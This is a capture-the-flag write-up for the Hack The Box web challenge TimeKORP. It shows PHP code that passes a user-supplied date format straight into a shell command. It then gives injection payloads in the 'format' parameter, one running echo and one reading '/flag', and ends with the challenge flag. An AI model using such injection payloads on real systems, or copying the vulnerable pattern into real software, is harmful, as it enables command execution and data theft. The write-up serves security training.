

# TimeKORP

> TBD
>
> Web Site:
> - `83.136.253.168:53981`
> 
> Files:
> - [web_timekorp.zip](web_timekorp.zip)

**Writeup by:** Hein Andre Grønnestad


- [TimeKORP](#timekorp)
  - [Checking Provided Files](#checking-provided-files)
  - [Web Site](#web-site)
    - [Frameworks](#frameworks)
  - [Command Injection](#command-injection)
    - [PoC](#poc)
  - [Flag](#flag)


## Checking Provided Files

```bash
$ ll
total 28
-rwxrwxrwx 1 hag hag 13763 Mar 11 08:31 README.md
-rwxrwxrwx 1 hag hag  8278 Mar 11 08:33 web_timekorp.zip

$ unzip web_timekorp.zip
Archive:  web_timekorp.zip
   creating: web_timekorp/
   creating: web_timekorp/config/
  inflating: web_timekorp/config/nginx.conf
  inflating: web_timekorp/config/fpm.conf
  inflating: web_timekorp/config/supervisord.conf
 extracting: web_timekorp/flag
   creating: web_timekorp/challenge/
   creating: web_timekorp/challenge/static/
  inflating: web_timekorp/challenge/static/main.css
  inflating: web_timekorp/challenge/Router.php
   creating: web_timekorp/challenge/views/
  inflating: web_timekorp/challenge/views/index.php
   creating: web_timekorp/challenge/models/
  inflating: web_timekorp/challenge/models/TimeModel.php
  inflating: web_timekorp/challenge/index.php
   creating: web_timekorp/challenge/assets/
  inflating: web_timekorp/challenge/assets/favicon.png
   creating: web_timekorp/challenge/controllers/
  inflating: web_timekorp/challenge/controllers/TimeController.php
  inflating: web_timekorp/build_docker.sh
  inflating: web_timekorp/Dockerfile

$ cd web_timekorp
$ ll
total 4
-rwxrwxrwx 1 hag hag 120 Mar  7 19:53 build_docker.sh
drwxrwxrwx 1 hag hag 512 Mar  7 19:53 challenge
drwxrwxrwx 1 hag hag 512 Mar  7 19:53 config
-rwxrwxrwx 1 hag hag 887 Mar  7 19:53 Dockerfile
-rwxrwxrwx 1 hag hag  27 Mar  7 19:53 flag

$ cd challenge/
$ ll
total 4
drwxrwxrwx 1 hag hag  512 Mar  7 19:53 assets
drwxrwxrwx 1 hag hag  512 Mar  7 19:53 controllers
-rwxrwxrwx 1 hag hag  389 Mar  7 19:53 index.php
drwxrwxrwx 1 hag hag  512 Mar  7 19:53 models
-rwxrwxrwx 1 hag hag 2786 Mar  7 19:53 Router.php
drwxrwxrwx 1 hag hag  512 Mar  7 19:53 static
drwxrwxrwx 1 hag hag  512 Mar  7 19:53 views
$
```


## Web Site

The website is simply a site which shows us the current time and the current date. The instantly interesting part is the `?format=%H:%M:%S` parameter in the URL.

We should check if there is some templating stuff we can abuse.


### Frameworks

The next step would be to figure out what kind of frameworks that are being used on the website.

```bash
$ whatweb http://83.136.253.168:53981/?format=%H:%M:%S
http://83.136.253.168:53981/?format=%H:%M:%S [200 OK] Bootstrap[4.0.0,4.4.1], Country[FINLAND][FI], HTTPServer[nginx], IP[83.136.253.168], JQuery, Meta-Author[makelaris, makelarisjr], Script, Title[Time], nginx
```

Running `whatweb` didn't give us that much information, but we can see that the website is using `Bootstrap` and `JQuery`.

Luckily the website source code has been provided, so we can check the source code to see if we can find any interesting information.

It didn't take long to find some interesting code. This is from `TimeController.php`:


This code is responsible for making the call to the `date` command. This is a classic example of a command injection vulnerability. We can see that the `$format` parameter is being used directly in the `date` command. This means that we can inject our own commands into the `date` command.


## Command Injection

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

We can see that a `command` is constructed in the constructor. The format specifier; `$format` is used directly in the command and we can control this parameter.

### PoC

```bash
http://83.136.253.168:53981/?format=%H:%M:%S';echo 'test
```


We can see that the `echo` command was executed and outputs `test`.

If we look at the code, we can see how this works:

```php
$this->command = "date '+" . $format . "' 2>&1";

// Payload: format=%H:%M:%S';echo 'test

// - We add a single quote to close the format specifier
// - Then we add a semicolon to execute our own command
// - Our own command also uses a single quote to make sure that we consume the remaining single quote from the original command

// This will result in the following command:
// date '+%H:%M:%S';echo 'test' 2>&1
```

This means that we have command injection. We can use this to read the flag.

First we need to figure out where the `flag` is located on the server.

The `Dockerfile` gives this away:

```Dockerfile
# Copy flag
COPY flag /flag
```

Tha flag is located in the root directory of the server. We can use the `cat` command to read the flag.

```bash
http://83.136.253.168:53981/?format=%H:%M:%S';cat '/flag
```



Success! 🚩


## Flag

`HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3}`
